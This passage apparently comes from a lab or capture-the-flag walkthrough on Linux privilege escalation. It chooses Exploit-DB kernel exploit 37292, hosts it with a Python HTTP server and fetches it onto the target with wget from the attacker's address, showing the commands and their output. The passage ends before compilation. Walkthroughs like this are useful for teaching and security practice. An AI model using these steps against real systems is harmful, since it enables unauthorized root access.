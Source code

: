 ![Exploit Search](exploits.png "3.13.0-32-generic exploits search")

### Choosing an Exploit

After conducting our research on exploits, we will select [EDB-ID: 37292](https://www.exploit-db.com/exploits/37292). This exploit is written in the **C** language so we will need to find a way to get this code on the target machine and then compile it and execute it.

### Getting the Exploit on the Target Machine

To get the exploit on the target machine we will host a http server on our device and then run a `wget` command on the target machine to pull the exploit code down.

#### Starting a HTTP Server via Python

First we need to change directories to where the exploit is downloaded and then we can spin up a http server.

```
$ cd Downloads 
                                                                                                       
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### Downloading Exploit on Target Machine

To download the exploit on the target machine we will run `wget http://10.0.2.4:8080/37292.c` via the ssh session we opened earlier.

```sh
$ wget http://10.0.2.4:8080/37292.c
--2025-01-08 05:14:09--  http://10.0.2.4:8080/37292.c
Connecting to 10.0.2.4:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: `37292.c'

100%[=============================================================>] 5,119       --.-K/s   in 0s      

2025-01-08 05:14:09 (54.0 MB/s) - `37292.c' saved [5119/5119]
```
